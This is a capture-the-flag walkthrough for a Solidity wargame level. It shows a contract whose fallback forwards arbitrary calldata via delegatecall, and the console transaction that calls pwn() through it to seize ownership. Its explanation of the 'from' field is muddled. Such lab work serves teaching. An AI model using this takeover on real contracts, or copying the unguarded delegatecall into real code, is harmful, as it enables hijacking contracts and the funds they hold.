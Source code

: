 ***Delegation***

The goal of this level is for you to claim ownership of the instance you are given.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

`delegatecall` is a low level function similar to `call`.

When contract A executes delegatecall to contract B, B's code is executed with contract A's storage, msg.sender and msg.value.

If we use the console `await sendTransaction({from:"", to:"", data:""})`, we can trigger the fallback function in Delegation.

We're calling pwn() through the fallback function to modify this contract's expected behavior.

Using Remix IDE or the console, invoke Delegation.sol’s fallback function:

```
await sendTransaction({
  from: <your address>,
  to: <target contract instance>,
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```

That `data` value is = `(bytes4(sha3("pwn()"))`

The result is a contract that hands itself the `msg.data` you've provided, including a new value for the `from:`.

If you've done it right, you've now become the owner of the target!

![Alt text](complete.jpg)